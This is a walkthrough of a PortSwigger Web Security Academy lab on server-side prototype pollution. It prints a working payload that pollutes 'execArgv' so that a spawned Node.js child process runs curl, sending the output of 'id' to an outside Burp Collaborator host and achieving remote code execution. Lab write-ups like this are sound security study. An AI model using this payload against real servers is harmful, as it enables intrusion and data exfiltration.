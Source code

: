 ```yaml
---
{"dg-publish":true,"permalink":"/port-swigger-web-academy/prototype-pollution/server-side-prototype-pollution/lab-8-json-spaces/"}
---
```



---
## Objective: Get RCE & Delete `/home/carlos/morale.txt`

In this lab, we already have escalated privileges, giving us access to admin functionality. We can log in to our account with the following credentials: `wiener:peter`

Inspect the request in Repeater

![Pasted image 20250402004554.png](/img/user/Images/Pasted%20image%2020250402004554.png)

Now, we will try the `json spaces` override technique. We will attempt to add the `__proto__` as an object that has the `json spaces` property. I this case I will be using `20`

```json
"__proto__":{
	"json spaces": 20
}
```

Send the request and check the Raw Response

![Pasted image 20250402192520.png](/img/user/Images/Pasted%20image%2020250402192520.png)

 Great, it worked. Now in the 'Admin Panel' there is a button to Run maintenance jobs
 ![Pasted image 20250402202002.png](/img/user/Images/Pasted%20image%2020250402202002.png)

Checking the request it made on Burp reveals that its doing some system-level functions like DB and Filesystem cleanup. These are good candidates that spawn child processes that we can use to get RCE

![Pasted image 20250402202059.png](/img/user/Images/Pasted%20image%2020250402202059.png)

What we can do from here first pollute the `execArgv` property in the `child_process` module and call execSync to our Burp Collaborator 


```json
"__proto__":{
	"execArgv":[
		"--eval=require('child_process').execSync('curl https://xvwj31prbz2zljp52qbqjulgg7myapye.oastify.com -d $(id)')"
	]
}
```

In the command above, I use the `-d` flag to send data which is the bash command I want to execute, `id`

![Pasted image 20250402202719.png](/img/user/Images/Pasted%20image%2020250402202719.png)

Send the request and Run maintenance jobs to spawn another child process that executes our payload

Check the Collaborator tab for incoming polls

![Pasted image 20250402202934.png](/img/user/Images/Pasted%20image%2020250402202934.png)

And there it is, we received output from our payload. RCE successful! Now, just delete `/home/carlos/morale.txt` and we solved the lab!



